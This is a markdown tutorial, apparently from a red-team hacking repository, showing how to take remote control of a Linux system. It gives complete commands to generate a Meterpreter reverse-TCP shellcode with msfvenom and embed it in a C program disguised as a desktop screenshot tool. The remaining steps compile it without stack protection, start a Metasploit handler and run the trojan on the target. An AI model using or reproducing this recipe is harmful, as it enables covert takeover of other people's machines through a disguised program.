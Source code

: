 #### EXERCISE OBJECTIVES
Take control of a linux system remotely ( metasploit - RAT )

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also contains a system command that takes a screenshot to the desktop of the target PC using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic.<br />

<br /><br />

| DEPENDENCIE | FUNCTION | REQUIRED |
|---|---|---|
| Metasploit | Build shellcode ; recive connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

<br /><br /><br />

### STEP-BY-STEP (HOW-TO)

<br />

#### Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br />

#### Use Metasploit to Build Shellcode in C Format

```
   ## Build raw shellcode in C
   # WARNING: Replace LHOST value by your local ip address
   # WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
   sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -a x86 --platform linux -f c -o chars.raw

```

<br />

#### See whats written inside chars.raw (optional)

```
   cat chars.raw
```

<br />

#### Parse shellcode data and store it into a local bash variable

```
   pa=$(cat chars.raw | grep -v "=" | tr -d '"; ' | tr -d '\n')
```

<br />

#### Insert the C shellcode created into a C program

```
   echo "#include<stdio.h>" > payload.c
   echo "#include<stdlib.h>" >> payload.c
   echo "#include<string.h>" >> payload.c
   echo "" >> payload.c
   echo "unsigned char buf[] = \"$pa\";" >> payload.c
   echo "" >> payload.c
   echo "int main()" >> payload.c
   echo "{" >> payload.c
   echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
   echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  void (*ret)() = (void(*)())buf;" >> payload.c
   echo "  ret();" >> payload.c
   echo "}" >> payload.c
```

<br />

#### See whats written inside payload.c (optional)

```
   cat payload.c
```

<br />

#### Use GCC to compile the C program (make it executable)

```
 sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br />

#### Start metasploit multi handler

```
   # WARNING: Replace LHOST value by your local ip address
   # WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
   sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br />

#### Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


